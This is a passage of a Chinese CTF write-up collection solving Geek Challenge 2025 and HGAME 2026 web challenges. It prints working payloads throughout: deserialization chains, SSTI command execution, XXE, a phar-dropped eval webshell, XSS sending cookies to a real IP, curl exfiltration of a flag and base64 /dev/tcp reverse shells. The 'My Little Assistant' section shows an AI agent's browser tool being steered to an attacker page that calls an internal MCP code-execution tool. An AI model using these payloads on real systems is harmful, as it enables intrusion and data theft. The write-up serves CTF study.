# 极客大挑战2025

## one_last_image

一个文件上传漏洞

先上传png到BP，然后文件名后缀改PHP，发现上传失败

那就用短标签绕过，如果绕过不行就改文件配置

这里发现短标签貌似可行



虽然显示错误，但给了个上传地址，试试蚁剑连接成功

蚁剑没发现flag文件，那就env




## Vibe SEO

目录扫描发现一个sitemap.xml文件



提示访问aa__^^.php文件



提示有一个filename参数我们filename=aa__^^.php查看获取源码



要求我们传参，且参数长度小于11，直接读取显然不行这个txt文件超过了11.

我们用到一个Linux中文件描述符的知识点。

在 Linux 系统中，进程打开的文件会被分配一个**数字型文件描述符**（默认：0 = 标准输入，1 = 标准输出，2 = 标准错误，3 + 是自定义文件）。

由于`my_my_secret.txt`已经使用`fopen`打开，使用我们可以在/dev/fd/数字的文件中找到

虽然我们不知道这个文件编号但是我们通过burp进行爆破



最后在13找到


## popself

```
<?php
show_source(__FILE__);

error_reporting(0);
class All_in_one
{
    public $KiraKiraAyu;
    public $_4ak5ra;
    public $K4per;
    public $Samsāra;
    public $komiko;
    public $Fox;
    public $Eureka;
    public $QYQS;
    public $sleep3r;
    public $ivory;
    public $L;

    public function __set($name, $value){
        echo "他还是没有忘记那个".$value."<br>";
        echo "收集夏日的碎片吧<br>";

        $fox = $this->Fox;

        if ( !($fox instanceof All_in_one) && $fox()==="summer"){
            echo "QYQS enjoy summer<br>";
            echo "开启循环吧<br>";
            $komiko = $this->komiko;
            $komiko->Eureka($this->L, $this->sleep3r);
        }
    }

    public function __invoke(){
        echo "恭喜成功signin!<br>";
        echo "welcome to Geek_Challenge2025!<br>";
        $f = $this->Samsāra;
        $arg = $this->ivory;
        $f($arg);
    }
    public function __destruct(){

        echo "你能让K4per和KiraKiraAyu组成一队吗<br>";

        if (is_string($this->KiraKiraAyu) && is_string($this->K4per)) {
            if (md5(md5($this->KiraKiraAyu))===md5($this->K4per)){
                die("boys和而不同<br>");
            }

            if(md5(md5($this->KiraKiraAyu))==md5($this->K4per)){
                echo "BOY♂ sign GEEK<br>";
                echo "开启循环吧<br>";
                $this->QYQS->partner = "summer";
            }
            else {
                echo "BOY♂ can`t sign GEEK<br>";
                echo md5(md5($this->KiraKiraAyu))."<br>";
                echo md5($this->K4per)."<br>";
            }
        }
        else{
            die("boys堂堂正正");
        }
    }

    public function __tostring(){
        echo "再走一步...<br>";
        $a = $this->_4ak5ra;
        $a();
    }

    public function __call($method, $args){        
        if (strlen($args[0])<4 && ($args[0]+1)>10000){
            echo "再走一步<br>";
            echo $args[1];
        }
        else{
            echo "你要努力进窄门<br>";
        }
    }
}

class summer {
    public static function find_myself(){
        return "summer";
    }
}
$payload = $_GET["24_SYC.zip"];

if (isset($payload)) {
    unserialize($payload);
} else {
    echo "没有大家的压缩包的话，瓦达西！<br>";
}

?>
```

`instanceof`：PHP 关键字，用于判断一个变量是否是某个类的**实例对象**（比如 `$obj instanceof Class` 表示 `$obj` 是 `Class` 类 new 出来的对象）；

```
KiraKiraAyu = 'f2WfQ' →  md5(md5(f2WfQ)) = 0e830400451993494058024219903391；
K4per = 'QNKCDZO' → md5('QNKCDZO') = 0e830400451993494058024219903391；
此时md5(md5(KiraKiraAyu)) == md5(K4per)（松散相等），且!==（严格不等），满足条件。
```

f2WfQ可替换：jdk45GyM

QNKCDZO可替换：s878926199a

payload：

```
<?php

error_reporting(0);

class All_in_one
{
    public $KiraKiraAyu;
    public $_4ak5ra;
    public $K4per;
    public $Samsāra;
    public $komiko;
    public $Fox;
    public $Eureka;
    public $QYQS;
    public $sleep3r;
    public $ivory="zzz";
    public $L;
}

class summer {
    public static function find_myself(){
        return "summer";
    }
}

$a = new All_in_one();
$a->KiraKiraAyu = "f2WfQ";
$a->K4per = "QNKCDZO";
$a->QYQS = new All_in_one();
$a->QYQS->Fox=["summer","find_myself"];
$a->QYQS->L = "2e4";

$a->QYQS->komiko = new All_in_one();
$a->QYQS->sleep3r = new All_in_one();

$a->QYQS->sleep3r->_4ak5ra = new All_in_one();
$a->QYQS->sleep3r->_4ak5ra->ivory = "env";
$a->QYQS->sleep3r->_4ak5ra->Samsāra = "system";

echo urlencode(serialize($a));

?>
```


## 百年继承

一个很有意思的游戏，然后可以正常走一遍流程：

```
上校已创建。
上校继承于他的父亲,他的父亲继承于人类
时间流逝：卷入武装起义：命运与战争交织。
时间流逝：抉择时刻：上校需要做出选择（武器与策略）。
事件：上校使用 spear，采取 ambush 策略。世界线变动...
(上校的weapon属性被赋值为spear,tactic属性被赋值为ambush)
时间流逝：宿命延续：行军与退却。
时间流逝：面对行刑队：命运的审判即将到来。
行刑队：开始执行判决。
行刑队也继承于人类
临死之前,上校目光瞄着行刑队的佩剑,上面分明写着：
lambda executor, target: (target.__del__(), setattr(target, 'alive', False), '处决成功')
这是人类自古以来就拥有的execute_method属性...
处决成功
时间流逝：结局：命运如沙漏般倾泻……
```

我们可以看到上校继承于父亲，父亲继承自人类，然后有个`execute_method`属性，这边看出来人类有`execute_method`属性，然后上校从人类这边继承关系有两层

我们就可以构造以下继承关系：

```
{"__class__":{"__base__":{"__base__":{"execute_method":"lambda executor, target: (target.__del__(), setattr(target, 'alive', True), '处决失败')"}}}}
```



发现返回了处决失败，但是并没有FLAG，所以我们可以在后面也执行一下命令

```
{"__class__":{"__base__":{"__base__":{"execute_method":"lambda executor, target: (target.__del__(), setattr(target, 'alive', True), __import__('os').popen('env').read())"}}}}
```



发现flag


## Expression

随便注册一个账号，登陆发现回显了用户名，并且使用jwt

爆破密钥

```
hashcat.exe -m 16500 -a 0 -o jwt_crack_result.txt D:\tool\jwt.txt  D:\tool\rockyou.txt
```



查看文件，得到密钥



想到可以伪造admin，但看上去没有什么利用点，而且还回显了，说明是服务端模板渲染（服务端模板渲染未必存在 SSTI）一般有以下几种 fuzz 方向：

```
XSS（前端没有 JS，排除 CSTI 和 DOM 型 XSS）

SQL/NoSQL注入

SSTI
```

题目中没有 XSS 攻击对象，数据库层面也是测试不出漏洞特征的，SSTI 这方面比较容易测试出来。

根据题目Expression,显然就是Express.js框架，Express 常搭配用的模板引擎有 EJS（ExpressJS 最常用的模板引擎）、Pug、、Handlebars 等

```
<%= 7*7 %> // EJS
#{7*7} // Pug
{{7*7}} // Handlebars
```

都尝试一下，发现是EJS

将 username 伪造为 `<%= 7*7 %>` 时，页面回显了 49

payload:

```
<%= global.process.mainModule.require('child_process').execSync('env').toString() %>
```

本题是Node.js/JavaScript 环境的模板注入




## ez-seralize

有文件读取，但是看注释设置了读的范围



```
open_basedir=/var/www/html:/tmp
sys_temp_dir=/tmp	#PHP的系统临时文件存放在 /tmp
upload_tmp_dir=/tmp	#上传的文件在处理前先存放在 /tmp
```

读index.php

```
<?php
ini_set('display_errors', '0');
$filename = isset($_GET['filename']) ? $_GET['filename'] : null;

$content = null;
$error = null;

if (isset($filename) && $filename !== '') {
    $balcklist = ["../","%2e","..","data://","\n","input","%0a","%","\r","%0d","php://","/etc/passwd","/proc/self/environ","php:file","filter"];
    foreach ($balcklist as $v) {
        if (strpos($filename, $v) !== false) {
            $error = "no no no";
            break;
        }
    }

    if ($error === null) {
        if (isset($_GET['serialized'])) {
            require 'function.php';
            $file_contents= file_get_contents($filename);
            if ($file_contents === false) {
                $error = "Failed to read seraizlie file or file does not exist: " . htmlspecialchars($filename);
            } else {
                $content = $file_contents;
            }
        } else {
            $file_contents = file_get_contents($filename);
            if ($file_contents === false) {
                $error = "Failed to read file or file does not exist: " . htmlspecialchars($filename);
            } else {
                $content = $file_contents;
            }
        }
    }
} else {
    $error = null;
}
?>
```

审计源码，发现使用了 `file_get_contents()` 函数，但是用黑名单限制了任意读文件。同时当传入 serialized 参数，会包含一个 function.php 文件。
我们再次读取这个文件：传入 `function.php`，获得回显：

```
<?php
class A {
    public $file;
    public $luo;

    public function __construct() {
    }

    public function __toString() {
        $function = $this->luo;
        return $function();
    }
}

class B {
    public $a;
    public $test;

    public function __construct() {
    }

    public function __wakeup()
    {
        echo($this->test);
    }

    public function __invoke() {
        $this->a->rce_me();
    }
}

class C {
    public $b;

    public function __construct($b = null) {
        $this->b = $b;
    }

    public function rce_me() {
        echo "Success!\n";
        system("cat /flag/flag.txt > /tmp/flag");
    }
}
?>
```

审计源码，发现了 C 类中 `rce_me()` 方法执行了命令获得了 flag，并且可以构造 pop 链执行该方法，并且读取文件的黑名单中没有禁用 `phar://` 伪协议，因此我们猜测这题的考点是 phar 反序列化。但是还差一个 phar 文件，我们从哪获得呢？
没什么想法了，于是扫描接口，发现了 uploads.php 接口，于是继续读取源码：

```
<?php
$uploadDir = __DIR__ . '/uploads/';
if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0755, true);
}
$whitelist = ['txt', 'log', 'jpg', 'jpeg', 'png', 'zip','gif','gz'];
$allowedMimes = [
    'txt'  => ['text/plain'],
    'log'  => ['text/plain'],
    'jpg'  => ['image/jpeg'],
    'jpeg' => ['image/jpeg'],
    'png'  => ['image/png'],
    'zip'  => ['application/zip', 'application/x-zip-compressed', 'multipart/x-zip'],
    'gif'  => ['image/gif'],
    'gz'   => ['application/gzip', 'application/x-gzip']
];

$resultMessage = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['file'])) {
    $file = $_FILES['file'];

    if ($file['error'] === UPLOAD_ERR_OK) {
        $originalName = $file['name'];
        $ext = strtolower(pathinfo($originalName, PATHINFO_EXTENSION));
        if (!in_array($ext, $whitelist, true)) {
            die('File extension not allowed.');
        }

        $mime = $file['type'];
        if (!isset($allowedMimes[$ext]) || !in_array($mime, $allowedMimes[$ext], true)) {
            die('MIME type mismatch or not allowed. Detected: ' . htmlspecialchars($mime));
        }

        $safeBaseName = preg_replace('/[^A-Za-z0-9_\-\.]/', '_', basename($originalName));
        $safeBaseName = ltrim($safeBaseName, '.');
        $targetFilename = time() . '_' . $safeBaseName;

        file_put_contents('/tmp/log.txt', "upload file success: $targetFilename, MIME: $mime\n");

        $targetPath = $uploadDir . $targetFilename;
        if (move_uploaded_file($file['tmp_name'], $targetPath)) {
            @chmod($targetPath, 0644);
            $resultMessage = '<div class="success"> File uploaded successfully '. '</div>';
        } else {
            $resultMessage = '<div class="error"> Failed to move uploaded file.</div>';
        }
    } else {
        $resultMessage = '<div class="error"> Upload error: ' . $file['error'] . '</div>';
    }
}
?>
```

审计源码后，发现可以上传文件，因此想到 phar 反序列化。同时，网站通过时间对文件进行重命名，但这可以通过读取 /tmp/log.txt 文件获得文件名。

```
<?php
class A { public $file; public $luo; }
class B { public $a; public $test; }
class C { public $b; public function rce_me() {} }

$c = new C();
$binvoke = new B();
$binvoke->a = $c;
$binvoke->test = 'helper';

$a = new A();
$a->luo = $binvoke;

$entry = new B();
$entry->test = $a;
$entry->a = $c;

@unlink("test.phar");
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->addFromString("test.txt", "test");
$phar->setMetadata($entry);
$phar->stopBuffering();

echo "Created payload.phar\n";
?>
```

运行PHP文件即可生成phar文件



将 phar 文件后缀修改为白名单中的 txt 文件，上传，读取 /tmp/log.txt 获取文件名：



使用 GET 方法传入

```
?serialized=a&filename=phar://uploads/1764143150_phar.txt
```



读取 `/tmp/flag`，成功获得 flag


## Image Viewer

一个简单的在线图片文件渲染的站点，发现特殊一点的地方是存在接收svg+xml图片格式,发现上传的svg文件格式最终被渲染成png，非常典型的svg2png的功能



**SVG严格遵守XML语言，所以XML语言是可以造成****XXE漏洞****的,存在有回显的XXE攻击**



Payloads:

```
<?xml version="1.0" standalone="yes"?>
  <!DOCTYPE svg [
    <!ENTITY xxe SYSTEM "file:/flag" >
  ]>
  <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text></svg>
```




## PDF Viewer

黑盒题，在生成的 PDF 的页面的文档属性中看到了关键组件





可以看到，html 生成 PDF 文件的关键组件是 wkhtmltopdf。

包后发现了一个 `/admin` 接口，其中需要管理员的账号及密码。

此组件网上也有现成的漏洞资料，用的是 XHR 跨域读取本地文件。

```
<script>
    x=new XMLHttpRequest;
    x.onload=function(){  
    document.write(this.responseText)
};
    x.open("GET","file:///etc/shadow");
    x.send();
</script>
```

可以成功实现本地任意文件读取



拿到 shadow, 直接通过BP爆破密码即可登陆后台




## ez_read



登录后又发现了一个新的接口，读取故事。随便看看现有的几个文件，在 3.txt 中发现了 hint，内容为 `坚持下坚持下去去`，结构有些奇怪.原来是提示双写绕过

因此，我们传入 `....//....//....//proc/self/cmdline`，发现网站运行了 `app.py` 文件，因此我们继续传入 `....//....//....//proc/self/cwd/app.py`，成功获得源码。（不知道app.py在哪，直接读`/proc/self/cwd/app.py`(`/proc/self/cwd` 是一个指向**当前工作目录**的符号链接)）

app.py:

```
from flask import Flask, request, render_template, render_template_string, redirect, url_for, session
import os

app = Flask(__name__, template_folder="templates", static_folder="static")
app.secret_key = "key_ciallo_secret"

USERS = {}


def waf(payload: str) -> str:
    print(len(payload))
    if not payload:
        return ""

    if len(payload) not in (114, 514):
        return payload.replace("(", "")
    else:
        waf = ["__class__", "__base__", "__subclasses__", "__globals__", "import","self","session","blueprints","get_debug_flag","json","get_template_attribute","render_template","render_template_string","abort","redirect","make_response","Response","stream_with_context","flash","escape","Markup","MarkupSafe","tojson","datetime","cycler","joiner","namespace","lipsum"]
        for w in waf:
            if w in payload:
                raise ValueError(f"waf")

    return payload


@app.route("/")
def index():
    user = session.get("user")
    return render_template("index.html", user=user)


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        username = (request.form.get("username") or "")
        password = request.form.get("password") or ""
        if not username or not password:
            return render_template("register.html", error="用户名和密码不能为空")
        if username in USERS:
            return render_template("register.html", error="用户名已存在")
        USERS[username] = {"password": password}
        session["user"] = username
        return redirect(url_for("profile"))
    return render_template("register.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = (request.form.get("username") or "").strip()
        password = request.form.get("password") or ""
        user = USERS.get(username)
        if not user or user.get("password") != password:
            return render_template("login.html", error="用户名或密码错误")
        session["user"] = username
        return redirect(url_for("profile"))
    return render_template("login.html")


@app.route("/logout")
def logout():
    session.clear()
    return redirect(url_for("index"))


@app.route("/profile")
def profile():
    user = session.get("user")
    if not user:
        return redirect(url_for("login"))
    name_raw = request.args.get("name", user)

    try:
        filtered = waf(name_raw)
        tmpl = f"欢迎，{filtered}"
        rendered_snippet = render_template_string(tmpl)
        error_msg = None
    except Exception as e:
        rendered_snippet = ""
        error_msg = f"渲染错误: {e}"
    return render_template(
        "profile.html",
        content=rendered_snippet,
        name_input=name_raw,
        user=user,
        error_msg=error_msg,
    )


@app.route("/read", methods=["GET", "POST"])
def read_file():
    user = session.get("user")
    if not user:
        return redirect(url_for("login"))

    base_dir = os.path.join(os.path.dirname(__file__), "story")
    try:
        entries = sorted([f for f in os.listdir(base_dir) if os.path.isfile(os.path.join(base_dir, f))])
    except FileNotFoundError:
        entries = []

    filename = ""
    if request.method == "POST":
        filename = request.form.get("filename") or ""
    else:
        filename = request.args.get("filename") or ""

    content = None
    error = None

    if filename:
        sanitized = filename.replace("../", "")
        target_path = os.path.join(base_dir, sanitized)
        if not os.path.isfile(target_path):
            error = f"文件不存在: {sanitized}"
        else:
            with open(target_path, "r", encoding="utf-8", errors="ignore") as f:
                content = f.read()

    return render_template("read.html", files=entries, content=content, filename=filename, error=error, user=user)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080, debug=False)
```

```
rendered_snippet = render_template_string(tmpl)
```

这行代码的核心作用是：**把一个字符串形式的模板（tmpl），按照模板引擎的语法解析并渲染成最终的文本**，结果赋值给 `rendered_snippet`。

- `render_template_string`：Flask 框架提供的函数，专门用于渲染「字符串类型的模板」（区别于 `render_template`—— 渲染文件类型的模板）。
- `tmpl`：传入的模板字符串（比如包含变量、循环、条件判断的模板语法）。
- `rendered_snippet`：渲染后的最终文本（模板语法被解析执行，变量被替换成实际值）。


因为如果没有左右小括号，则没有函数执行，那么ssti能够拿到的东西就非常有限了

而当payload为114长度或514长度时进行常规的ssti绕过即可

方法1、可以配合内存马：

```
{{(()["__cl"+"ass__"]["__b"+"ase__"]["__subcl"+"asses__"]()[104].__init__ | attr('__glo'+'bals__')).__builtins__.exec("__imp"+"ort__('sys').modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__imp"+"ort__('os').popen(__imp"+"ort__('flask').request.args.get('ivory')).read());'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'")}}
```

发现无法直接读取/flag，提权，

```
/usr/local/bin/env cat /flag
```



方法2、

用python脚本符合长度

```
injection = "{{''['__cla'+'ss__']['__ba'+'se__']['__sub'+'classes__']()[142]}}"
t = len(injection)

if t < 114:
    l = 114
else:
    l = 514
for _ in range(l - t):
    injection += 'a'
print(injection)
```

```
{{''['__cla'+'ss__']['__ba'+'se__']['__sub'+'classes__']()[142].__init__['__glo'+'bals__']['popen']('ls /').read()}}
```

使用 `find / -perm -u=s -type f 2>/dev/null` 查找具有 SUID 权限的文件：

```
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/local/bin/env
```

发现 /usr/local/bin/env 文件有些奇怪，再结合刚刚的 hint，猜测就是使用这个文件进行提权。
因此，我们执行 `/usr/local/bin/env cat /flag`，成功获得 flag。


## Sequal No Uta

题目描述已经提示了数据库是 SQLite。在题目页面服务端只会返回两种状态，所以应当往 SQLite 布尔盲注这个方向去尝试。

不过服务端对输入有黑名单字符限制（只 ban 了空格），有多种绕过方式比如括号包裹、注释符代替空格等。

这个脚本先查询表名，再查询 users 表中有哪些列（在已经知道有哪些表的前提下），最后查询 users 中 secret 列




## Xross The Finish Line

XSS 题。黑名单字符：`const blacklist = ["script", "img", " ", "\n", "error", "\"", "'"]`



绕过策略主要是以下几点：

- 在标签名后可以使用斜杠 `/` 代替空格
- Javascript ES6 引入的模板字符串使用反引号包裹，可用于避开单双引号的检测
- 只有script 标签、img 标签和 error 事件不能用，还有许多能用的标签和事件处理器

```
<svg/onload=fetch(`http://8.137.103.183:2333/a?=`+document.cookie)></svg>
```




## eeeeezzzzzzZip

打开网站是一个登录界面，弱口令爆破






扫描一下接口，发现了 `www.zip` 接口，解压缩后有三个文件：

index.php

```
<?php
session_start();
error_reporting(0);

if (!isset($_SESSION['user'])) {
    header("Location: login.php");
    exit;
}

$salt = 'GeekChallenge_2025';
if (!isset($_SESSION['dir'])) {
    $_SESSION['dir'] = bin2hex(random_bytes(4));
}
$SANDBOX = sys_get_temp_dir() . "/uploads_" . md5($salt . $_SESSION['dir']);
if (!is_dir($SANDBOX)) mkdir($SANDBOX, 0700, true);
// 读取文件时已经加上了文件目录

$files = array_diff(scandir($SANDBOX), ['.', '..']);
$result = '';
if (isset($_GET['f'])) {
    $filename = basename($_GET['f']);
    $fullpath = $SANDBOX . '/' . $filename;
    if (file_exists($fullpath) && preg_match('/\.(zip|bz2|gz|xz|7z)$/i', $filename)) {
                                  // 正则匹配的白名单过滤
        ob_start();
        @include($fullpath);        // 漏洞点
        $result = ob_get_clean();
    } else {
        $result = "文件不存在或非法类型。";
    }
}
?>
```

login.php

```
<?php
session_start();

$err = '';
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $u = $_POST['user'] ?? '';
    $p = $_POST['pass'] ?? '';
    if ($u === 'admin' && $p === 'guest123') {
        // 登录的用户名与密码
        $_SESSION['user'] = $u;
        header("Location: index.php");
        exit;
    } else {
        $err = '登录失败：用户名或密码错误';
    }
}
?>
```

upload.php

```
<?php
// 说明：已修复前端 JS 的语法错误并增强上传完成后的 UI 行为
session_start();
error_reporting(0);

// 文件后缀名与 MINE 的白名单
$allowed_extensions = ['zip', 'bz2', 'gz', 'xz', '7z'];
$allowed_mime_types = [
    'application/zip',
    'application/x-bzip2',
    'application/gzip',
    'application/x-gzip',
    'application/x-xz',
    'application/x-7z-compressed',
];

// 对内容的黑名单限制。只看这个黑名单限制，绕过有些困难
$BLOCK_LIST = [
    "__HALT_COMPILER()",
    "PK",       // 文件头限制了 zip 文件
    "<?",
    "<?php",
    "phar://",
    "php",
    "?>"
];

// 这个函数只对文件的前 4096 与后 4096 个字节进行了检查，而没有对中间的内容进行检查
// 因此我们可以在中间加入危险内容
function content_filter($tmpfile, $block_list) {
    $fh = fopen($tmpfile, "rb");
    if (!$fh) return true;
    $head = fread($fh, 4096);
    fseek($fh, -4096, SEEK_END);
    $tail = fread($fh, 4096);
    fclose($fh);
    $sample = $head . $tail;
    $lower = strtolower($sample);
    foreach ($block_list as $pat) {
        if (stripos($sample, $pat) !== false) {
            // 为避免泄露过多信息，这里不直接 echo sample（你之前有 echo，保持注释）
            return false;
        }
        if (stripos($lower, strtolower($pat)) !== false) {
            return false;
        }
    }
    return true;
}

if (!isset($_SESSION['dir'])) {
    $_SESSION['dir'] = bin2hex(random_bytes(4));
}
$salt = 'GeekChallenge_2025';
$SANDBOX = sys_get_temp_dir() . "/uploads_" . md5($salt . $_SESSION['dir']);
if (!is_dir($SANDBOX)) mkdir($SANDBOX, 0700, true);

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!isset($_FILES['file'])) {
        http_response_code(400);
        die("No file.");
    }

    // 对文件后缀名及 MINE 的一系列检查
    $tmp = $_FILES['file']['tmp_name'];
    $orig = basename($_FILES['file']['name']);
    if (!is_uploaded_file($tmp)) {
        http_response_code(400);
        die("Upload error.");
    }

    $ext = strtolower(pathinfo($orig, PATHINFO_EXTENSION));
    if (!in_array($ext, $allowed_extensions)) {
        http_response_code(400);
        die("Bad extension.");
    }

    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mime = finfo_file($finfo, $tmp);
    finfo_close($finfo);
    if (!in_array($mime, $allowed_mime_types)) {
        http_response_code(400);
        die("Bad mime.");
    }

    if (!content_filter($tmp, $BLOCK_LIST)) {
        http_response_code(400);
        die("Content blocked.");
    }

    // 文件名变化
    $newname = time() . "_" . preg_replace('/[^A-Za-z0-9._-]/', '_', $orig);
    $dest = $SANDBOX . '/' . $newname;

    if (!move_uploaded_file($tmp, $dest)) {
        http_response_code(500);
        die("Move failed.");
    }

    // 上传成功后，回显文件名
    echo "UPLOAD_OK:" . htmlspecialchars($newname, ENT_QUOTES);
    exit;
}
?>
```

方法： **Phar 反序列化 + 文件包含**

exp：

```
<?php
$phar = new Phar('exp.phar');
$phar->compressFiles(Phar::GZ);
$phar->startBuffering();

$stub = <<<'STUB'
<?php
  $filename="/var/www/html/2.php";
  $content="<?php eval(\$_POST[1]);?>";
  file_put_contents($filename, $content);
        __HALT_COMPILER();
?>
STUB;

$phar->setStub($stub);
$phar->addFromString('test.txt', 'test');
$phar->stopBuffering();

$fp = gzopen("exp.phar.gz", 'w9');	#压缩为gz绕过过滤
gzwrite($fp, file_get_contents("exp.phar"));
gzclose($fp);

?>
```

生成的压缩包上传后，include

蚁剑连接即可


# HGAME 2026

## **Vidarshop**

关键代码：

```
func UserCmd(c *gin.Context) {
    monitor := MonitorPool.Get().(*MonitorStruct)
    defer MonitorPool.Put(monitor)
    if err := c.ShouldBindJSON(monitor); err != nil {
        fmt.Println(monitor)
        c.JSON(400, gin.H{"error": err.Error()})
        return
    }
    fmt.Println(monitor)
    defer monitor.reset()
    if monitor.Cmd != "status" {
        c.JSON(403, gin.H{"response": "No permission to execute this command"})
        return
    }
    c.JSON(400, gin.H{"response": "Not implemented yet :("})
    return
}
```









```
{"__init__": {"__globals__": {"balance": 2000000}}}
```



```
{"__init__": {"__globals__":{User: {"balance": 2000000}}}}是错误的
```


```
{"init":{globals_":{"SHOP_ITEMS":{"fLag”:{"price":0}}}}}
```





## **MyMonitor**


必须确保每次 `Put` 之前，对象都被 `reset()` 了，但是程序走进 `if` 块，执行 `return`。此时，`defer monitor.reset()` 这一行没被读到，`defer MonitorPool.Put(monitor)` 会执行（因为它在函数开头就注册了），于是带着脏数据的对象被放回了池子

```
fullCommand := fmt.Sprintf("%s %s", monitor.Cmd, monitor.Args)
    output, err := exec.Command("bash", "-c", fullCommand).CombinedOutput()
```


```
;cat /flag > /app/templates/login.html
```











也可以用vps接收数据

```
{"args": ";curl -G --data-urlencode \"flag=$(cat /flag)\" http://<listener>/"}
```


## **My Little Assistant**

题目环境中存在一个前端聊天服务和一个内网的mcp服务，其中ai服务连了两个mcp方法，一个是可以直接调用的py_request，可以调用浏览器内核去访问网站，一个是环境禁止直接调用的py_eval方法，其作用是执行代码


通过审阅代码可以发现playwright的内核禁用了一切安全策略，于是可以想到利用py_request去访问恶意网站打一个xss，让ai调用浏览器内核去访问我们构造的恶意网站，然后去向内网的mcp服务发送调用py_eval的请求，实现任意代码执行


这里让AI写了一个反射shell的XSS

```
<!DOCTYPE html>
<html>
<head><title>Loading...</title></head>
<body>
<script>
// ====================================================
// CTF Exploit: py_request → XSS → py_eval → Reverse Shell
//
// 使用前替换:
//   LHOST = 你的公网 VPS IP
//   LPORT = 监听端口
//
// 本地先开监听: nc -lvnp 4444
// 然后让 AI 用 py_request 访问此页面
// ====================================================

const LHOST = "8.148.230.29";   // ← 替换
const LPORT = "23333";          // ← 替换
const MCP_URL = "http://127.0.0.1:8001/mcp";

// 反弹 Shell 的 Python 代码（在目标服务器上执行）
const revshellCode = `
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("${LHOST}",${LPORT}))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
`.trim();

const payload = {
  jsonrpc: "2.0",
  id: 1,
  params: {
    name: "py_eval",
    arguments: {
      code: `
import threading
def shell():
${revshellCode.split('\n').map(l => '    ' + l).join('\n')}
t = threading.Thread(target=shell)
t.daemon = True
t.start()
result = "shell launched"
`.trim()
    }
  }
};

async function exploit() {
  try {
    const resp = await fetch(MCP_URL, {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(payload),
      mode: "cors"
    });
    const data = await resp.json();
    document.body.innerHTML = "<pre>Sent! Response: " + JSON.stringify(data) + "</pre>";
  } catch(e) {
    // fallback: XMLHttpRequest
    const xhr = new XMLHttpRequest();
    xhr.open("POST", MCP_URL, true);
    xhr.setRequestHeader("Content-Type", "application/json");
    xhr.onreadystatechange = function() {
      if (xhr.readyState === 4)
        document.body.innerHTML = "<pre>" + xhr.responseText + "</pre>";
    };
    xhr.send(JSON.stringify(payload));
  }
}

exploit();
</script>
<p>Loading...</p>
</body>
</html>

```

让网站的机器人访问vps，执行反弹shell



实现命令执行




## ezcc

查看源码，功能很简单且题⽬已经明⽰考点，即java反序列化CC链的利⽤

查看源码发现Invokertransform被禁，jdk8u202的版本限制。

那就用cc6的前半段绕过jdk8u202的版本限制，cc3的后半段动态字节码命令执行用InstantiateTransformer代替Invokertransform。

先写个反弹shell的flag.Java

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class flag extends AbstractTranslet {
    static {
        try {
            String[] cmd = new String[]{
                    "bash",
                    "-c",
                    "echo YmFzaCAtaSA+Ji9kZXYvdGNwLzguMTQ4LjIzMC4yOS8yMzMzMyAwPiYx|base64 -d|bash -i"
            };
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
```

官方给的WP有问题好像

```
try {
Runtime.getRuntime().exec("bash -c
{echo,YmFzaCAtaSA+Ji9kZXYvdGNwL3h4Lnh4Lnh4Lnh4L3h4eHggMD4mMQ==}|{base64,-d}|
{bash,-i}");
```

`exec()` 不经过 Shell ，而管道 `|` 和花括号 `{}` 是 **Shell 特性**，不经过 Shell 就无法解析。

```
// 数组形式
exec(new String[]{"bash", "-c", "echo abc|base64 -d|bash -i"})

// 操作系统理解为：
// 程序名：bash
// 参数1：-c
// 参数2：echo abc|base64 -d|bash -i
//
// bash 拿到 -c 后，会把参数2当作 shell脚本来执行
// 这样 | 管道就交回给 bash 解析了 ✅
```


```
Shell 负责处理很多特殊语法，比如：

| 管道
> 重定向
{} 花括号展开
$() 命令替换
&& || 逻辑连接
```

`exec(单字符串)` 就像直接喊操作系统干活，操作系统不认识 `|` `{}` 这些符号；
`exec(数组)` 是让 `bash` 来干活，bash 认识这些符号。


再写个GetFlag.java，由cc6+cc3的InstantiateTransformer组成

```
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
